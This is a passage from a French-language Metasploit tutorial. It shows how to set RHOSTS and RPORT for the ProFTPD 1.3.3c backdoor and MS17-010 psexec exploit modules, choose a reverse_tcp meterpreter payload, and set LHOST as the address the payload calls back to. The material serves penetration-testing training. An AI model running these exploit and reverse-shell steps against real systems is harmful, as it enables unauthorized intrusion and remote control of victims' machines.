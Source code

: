 ```sh
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.3.173    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Les principales options sont __RHOSTS__ qui contient l'IP de la machine cible, et __RPORT__ qui indique le port où tourne le service cible.

Les options se configurent avec la commande __`set`__ :

```sh
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.3.173
RHOSTS => 192.168.3.173
```


### Choix du payloads

Les **payloads compatibles** peuvent être listés avec la commande `show payloads`. Si compatible, on choisira généralement `windows/meterpreter/reverse_tcp`, `linux/x86/meterpreter/reverse_tcp` ou `linux/x64/meterpreter/reverse_tcp`.

Pour selectionner un payload, on utilisera de la même façon la commande `set`.

```sh
msf6 exploit(windows/smb/ms17_010_psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

```

Une fois le __payload__ définit. Il est souvent nécessaire de le configurer en définissant __LHOST__ (adresse à laquel le payload vient se connecter).

On le configure de la même manière que RHOSTS avec la commande __set__.

```sh
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
```

Une fois qu'un payload a été définit. Ses __options__ appraissent également dans la sortie de la commande __`options`__.
